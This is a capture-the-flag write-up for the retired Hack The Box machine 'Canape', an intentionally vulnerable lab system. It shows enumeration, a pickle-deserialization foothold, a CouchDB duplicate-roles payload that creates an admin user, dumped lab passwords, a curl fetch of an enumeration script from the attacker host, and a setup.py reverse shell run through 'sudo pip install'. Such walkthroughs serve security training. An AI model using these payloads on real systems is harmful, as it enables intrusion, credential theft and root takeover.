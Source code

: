 # Canape

This is the write-up for the box Canape that got retired at the 15th September 2018.
My IP address was 10.10.14.21 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.70    canape.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/canape.nmap 10.10.10.70
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-git:
|   10.10.10.70:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: final # Please enter the commit message for your changes. Li...
|     Remotes:
|_      http://git.canape.htb/simpsons.git
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Simpsons Fan Site
|_http-trane-info: Problem with XML parsing of /evox/about
```

## Checking HTTP (Port 80)

On the web page there is a custom developed "Simpsons Fan Site" where it is possible to submit a quote to the server:

![Canape submit quote](canape_web-1.png)

In the HTML source code is a comment that may be relevant:
```markdown
<!-- c8a74a098a60aaea1af98945bd707a7eab0ff4b0 - temporarily hide check
<li class="nav-item">
<a class="nav-link" href="/check">Check Submission</a>
</li>
-->
```

When browsing to _/check_, it responses with HTTP code _405 Method Not Allowed_.
Changing the method to _POST_ then responses with HTTP code _400 Bad Request_.

The enumeration with **Nmap** found a _/.git_ repository and a subdomain.
This subdomain is also specified in _/.git/config_ where the repository lays and can be cloned from:
```markdown
git clone http://git.canape.htb/simpsons.git
```

This seems to be the backend code of the website written in _Python_.
When looking at the history of this git repository, it shows that there was a vulnerability in one of the commits:
```markdown
git log
```
```markdown
commit c8a74a098a60aaea1af98945bd707a7eab0ff4b0
Author: Homer Simpson <homerj0121@outlook.com>
Date:   Mon Jan 15 18:46:30 2018 -0800

    temporarily hide check due to vulerability
```

Lets see the differences between the vulnerable version and the current one:
```markdown
git diff c8a74a098a60aaea1af98945bd707a7eab0ff4b0
```

It uses the [Python Pickle module](https://docs.python.org/3/library/pickle.html) which is not secure and can be abused to execute arbitrary code.
I created a script to exploit this, that can be found in this repository:
```markdown
python canape_exploit-pickle.py
```

After executing the script, the listener on my IP and port 9001 starts a reverse shell session as _www-data_.

## Privilege Escalation

To enumerate the box, it is a good idea to run any **Linux Enumeration Script** to get an attack surface:
```markdown
curl 10.10.14.21 | LinEnum.sh
```

After analyzing the output, it becomes clear that the process **CouchDB** is running as root and _homer_:
```markdown
root        720  0.0  0.0   4240   644 ?        Ss   06:59   0:00 runsv couchdb
root        721  0.0  0.0   4384   668 ?        S    06:59   0:00 svlogd -tt /var/log/couchdb
homer       722  0.3  3.3 649340 33504 ?        Sl   06:59   0:28 /home/homer/bin/../erts-7.3/bin/beam -K true -A 16 -Bd -- -root /home/homer/bin/.. -progname couchdb -- -home /home/homer -- -boot /home/homer/bin/../releases/2.0.0/couchdb -name couchdb@localhost -setcookie monster -kernel error_logger silent -sasl sasl_error_logger false -noshell -noinput -config /home/homer/bin/../releases/2.0.0/sys.config
```

The command `netstat -alnp` shows the listening ports and CouchDB runs by default on port 5984:
```markdown
curl 127.0.0.1:5984

# Output
{"couchdb":"Welcome","version":"2.0.0","vendor":{"name":"The Apache Software Foundation"}}
```

The [CouchDB API Reference](https://docs.couchdb.org/en/stable/api/) explains the information to get from the database. Lets output all database names:
```markdown
curl 127.0.0.1:5984/\_all_dbs

# Output
["\_global_changes","\_metadata","\_replicator","\_users","passwords","simpsons"]
```

Now it is possible to get the database contents:
```markdown
curl 127.0.0.1:5984/simpsons/\_all_docs

# Output
{"total_rows":7,"offset":0,"rows":[
{"id":"f0042ac3dc4951b51f056467a1000dd9","key":"f0042ac3dc4951b51f056467a1000dd9","value":{"rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329"}},
{"id":"f53679a526a868d44172c83a61000d86","key":"f53679a526a868d44172c83a61000d86","value":{"rev":"1-7b8ec9e1c3e29b2a826e3d14ea122f6e"}},
{"id":"f53679a526a868d44172c83a6100183d","key":"f53679a526a868d44172c83a6100183d","value":{"rev":"1-e522ebc6aca87013a89dd4b37b762bd3"}},
{"id":"f53679a526a868d44172c83a61002980","key":"f53679a526a868d44172c83a61002980","value":{"rev":"1-3bec18e3b8b2c41797ea9d61a01c7cdc"}},
{"id":"f53679a526a868d44172c83a61003068","key":"f53679a526a868d44172c83a61003068","value":{"rev":"1-3d2f7da6bd52442e4598f25cc2e84540"}},
{"id":"f53679a526a868d44172c83a61003a2a","key":"f53679a526a868d44172c83a61003a2a","value":{"rev":"1-4446bfc0826ed3d81c9115e450844fb4"}},
{"id":"f53679a526a868d44172c83a6100451b","key":"f53679a526a868d44172c83a6100451b","value":{"rev":"1-3f6141f3aba11da1d65ff0c13fe6fd39"}}
]}
```

```markdown
curl 127.0.0.1:5984/simpsons/f0042ac3dc4951b51f056467a1000dd9

# Output
{"\_id":"f0042ac3dc4951b51f056467a1000dd9","\_rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329","character":"Homer","quote":"Doh!"}
```

This is the database that holds the quotes from the web page.
The _passwords_ database responses that we are not authorized to access it:
```markdown
curl 127.0.0.1:5984/passwords/

# Output
{"error":"unauthorized","reason":"You are not authorized to access this db."}
```

Lets look for vulnerabilities in **CouchDB 2.0.0**:
```markdown
searchsploit couchdb
```

There is a [Apache CouchDB < 2.1.0 - Remote Code Execution](https://justi.cz/security/2017/11/14/couchdb-rce-npm.html) vulnerability, which with it is possible to create a new user.
First the following `curl` command has to be sent to the box to the local CouchDB service:
```markdown
curl -X PUT 'http://localhost:5984/_users/org.couchdb.user:newuser'
--data-binary '{
  "type": "user",
  "name": "newuser",
  "roles": ["\_admin"],
  "roles": [],
  "password": "password"
}'
```

It was successful and created the user _newuser_:
```markdown
{"ok":true,"id":"org.couchdb.user:newuser","rev":"1-d9e411349288f7c530246df5e2d3b09a"}
```

Now accessing the database _passwords_ with authentication:
```markdown
curl --user 'newuser:password' 127.0.0.1:5984/passwords/\_all_docs

# Output
{"total_rows":4,"offset":0,"rows":[
{"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
{"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
{"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
{"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
]}
```

Output all four passwords one by one:
```markdown
curl --user 'oops:password' 127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4
(...)
```

This leaves us with some interesting results
```markdown
_{"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}
{"_id":"739c5ebdf3f7a001bebb8fc43800368d","_rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e","item":"couchdb","password":"r3lax0Nth3C0UCH","user":"couchy"}
{"_id":"739c5ebdf3f7a001bebb8fc438003e5f","_rev":"1-77cd0af093b96943ecb42c2e5358fe61","item":"simpsonsfanclub.com","password":"h02ddjdj2k2k2","user":"homer"}
{"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}_
```

The most important one is the SSH password _"0B4jyA0xtytZi7esBNGp"_ and as there is only one user called _homer_, we can probably switch to that user:
```markdown
su homer
```

### Privilege Escalation to root

Lets look at the `sudo` privileges of _homer_:
```markdown
sudo -l
```
```markdown
Matching Defaults entries for homer on canape:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```

This user can run `pip install`, which installs Python modules, as root. So creating a malicious Python script to execute that with `pip` will escalate privileges to root.

Creating a Python script _(setup.py)_ that starts a reverse shell:
```markdown
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.21",9002))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Executing the script with root privileges:
```markdown
sudo pip install .
```

After executing the command, the listener on my IP and port 9002 starts a reverse shell as root!
